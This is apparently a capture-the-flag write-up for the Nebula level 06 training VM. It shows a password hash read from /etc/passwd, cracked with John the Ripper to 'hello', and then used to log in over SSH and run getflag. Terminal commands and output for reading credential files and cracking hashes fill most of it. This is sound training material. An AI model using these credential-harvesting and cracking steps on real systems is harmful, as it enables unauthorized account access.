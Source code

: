 ```yaml
---
layout: post
title: 'Exploit Exercises: Nebula Level 06'
date: 2018-07-16 15:48 -0300
categories: [nebula, writeups]
tags: [ nebula, writeups, level, exploit, exercise, tutorial, solution]
---
```


![Image of Nebula Terminal](/uploads/Screenshot%20from%202018-07-16%2000-20-16.png)

The flag06 account credentials came from a legacy unix system.
To do this level, log in as the level06 account with the password level06. Files for this level can be found in /home/flag06.

### Source code

There is no source code available for this level.

### Solution

Well this exercises is so easy that I do not know why am I writing it anymore. Our first, and final hint, was: "The flag06 account credentials came from a legacy unix system." In other words let’s see what we have in /etc/passwd or /etc/shadow.

/etc/shadow:

```terminal
level06@nebula:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
level06@nebula:~$
Of course, we do not have any kind of permission on /etc/shadow system file.
/etc/passwd:
level06@nebula:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
nebula:x:1000:1000:nebula,,,:/home/nebula:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
level00:x:1001:1001::/home/level00:/bin/sh
flag00:x:999:999::/home/flag00:/bin/sh
level01:x:1002:1002::/home/level01:/bin/sh
flag01:x:998:998::/home/flag01:/bin/sh
level02:x:1003:1003::/home/level02:/bin/sh
flag02:x:997:997::/home/flag02:/bin/sh
level03:x:1004:1004::/home/level03:/bin/sh
flag03:x:996:996::/home/flag03:/bin/sh
level04:x:1005:1005::/home/level04:/bin/sh
flag04:x:995:995::/home/flag04:/bin/sh
level05:x:1006:1006::/home/level05:/bin/sh
flag05:x:994:994::/home/flag05:/bin/sh
level06:x:1007:1007::/home/level06:/bin/sh
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
level07:x:1008:1008::/home/level07:/bin/sh
flag07:x:992:992::/home/flag07:/bin/sh
level08:x:1009:1009::/home/level08:/bin/sh
flag08:x:991:991::/home/flag08:/bin/sh
level09:x:1010:1010::/home/level09:/bin/sh
flag09:x:990:990::/home/flag09:/bin/sh
level10:x:1011:1011::/home/level10:/bin/sh
flag10:x:989:989::/home/flag10:/bin/sh
level11:x:1012:1012::/home/level11:/bin/sh
flag11:x:988:988::/home/flag11:/bin/sh
level12:x:1013:1013::/home/level12:/bin/sh
flag12:x:987:987::/home/flag12:/bin/sh
level13:x:1014:1014::/home/level13:/bin/sh
flag13:x:986:986::/home/flag13:/bin/sh
level14:x:1015:1015::/home/level14:/bin/sh
flag14:x:985:985::/home/flag14:/bin/sh
level15:x:1016:1016::/home/level15:/bin/sh
flag15:x:984:984::/home/flag15:/bin/sh
level16:x:1017:1017::/home/level16:/bin/sh
flag16:x:983:983::/home/flag16:/bin/sh
level17:x:1018:1018::/home/level17:/bin/sh
flag17:x:982:982::/home/flag17:/bin/sh
level18:x:1019:1019::/home/level18:/bin/sh
flag18:x:981:981::/home/flag18:/bin/sh
level19:x:1020:1020::/home/level19:/bin/sh
flag19:x:980:980::/home/flag19:/bin/sh
level06@nebula:~$
```

Jakpot! We got "flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh", meaning we got the hash of the password of the flag06 account. How we actually retrieve the password of the flag06 account? Simple:

```terminal
nli@mysystem:~$ sudo apt install john
Fetched 4.447 kB in 2s (1.649 kB/s)
Selecting previously unselected package john-data.
(Reading database ... 407903 files and directories currently installed.)
Preparing to unpack .../john-data_1.8.0-2_all.deb ...
Unpacking john-data (1.8.0-2) ...
Selecting previously unselected package john.
Preparing to unpack .../john_1.8.0-2_amd64.deb ...
Unpacking john (1.8.0-2) ...
Processing triggers for man-db (2.7.5-1) ...
Setting up john-data (1.8.0-2) ...
Setting up john (1.8.0-2) ...
nli@mysystem:~$ echo 'flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh' > ./flag06.passwd
nli@mysystem:~$ john ./flag06.passwd
Created directory: /home/nli/.john
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 100% 2/3 33.33g/s 25100p/s 25100c/s 25100C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
nli@mysystem:~$
```

Amazing the password was so strong. It took me 0:00:00:00 seconds to both guess, hash my guessed password and check my hash with the provided hash. As we can see the password is "hello". For the grand final:

```terminal
level06@nebula:~$ ssh flag06@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


flag06@localhost's password:
Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

flag06@nebula:~$ getflag
You have successfully executed getflag on a target account
flag06@nebula:~$
```

If you enjoyed this tutorial then share and like!
